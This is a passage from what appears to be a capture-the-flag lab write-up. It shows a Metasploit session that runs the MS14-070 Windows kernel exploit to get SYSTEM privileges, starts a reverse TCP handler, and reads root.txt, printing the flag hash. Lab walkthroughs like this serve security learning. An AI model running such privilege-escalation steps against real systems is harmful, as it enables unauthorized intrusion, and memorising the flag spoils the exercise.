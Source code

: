This time, we can use the kernel exploit "MS14-070".
{% highlight shell %}
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl 
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.52.0.73:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter >
{% endhighlight %}

root.txt is in the directory "C:\Documents and Settings\Administrator\Desktop".
{% highlight shell %}
meterpreter > pwd
C:\Documents and Settings\Administrator\Desktop

meterpreter > cat root.txt
9359e905a2c35f861f6a57cecf28bb7b

meterpreter > 
{% endhighlight %}

